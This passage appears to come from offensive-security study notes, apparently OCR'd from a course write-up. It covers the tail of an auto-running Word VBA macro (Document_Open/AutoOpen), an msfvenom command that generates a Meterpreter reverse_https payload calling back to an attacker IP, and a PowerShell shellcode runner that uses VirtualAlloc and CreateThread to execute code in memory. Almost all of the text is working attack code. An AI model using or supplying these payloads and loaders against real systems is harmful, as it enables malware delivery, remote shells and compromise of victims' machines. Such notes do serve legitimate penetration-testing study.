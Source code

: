 ```
End Function 

Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub
```
![alt text](image-3.png)

## Powershell Shellcode Runner
Generate msvenom shellcode
```
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.119.120 LPORT=443 EXITFUNC=thread -f ps1
```
![alt text](image-4.png)

Powershell cradle
```
$Kernel32 = @"
using System;
using System.Runtime.InteropServices;

public class Kernel32 {
    [DllImport("kernel32")]
    public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, 
        uint flAllocationType, uint flProtect);
        
    [DllImport("kernel32", CharSet=CharSet.Ansi)]
    public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, 
        uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, 
            uint dwCreationFlags, IntPtr lpThreadId);
            
    [DllImport("kernel32.dll", SetLastError=true)]
    public static extern UInt32 WaitForSingleObject(IntPtr hHandle, 
        UInt32 dwMilliseconds);
}
"@

Add-Type $Kernel32

[Byte[]] $buf = 0xfc,0xe8,0x82,0x0,0x0,0x0,0x60...
$size = $buf.Length
[IntPtr]$addr = [Kernel32]::VirtualAlloc(0,$size,0x3000,0x40);
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $size)
```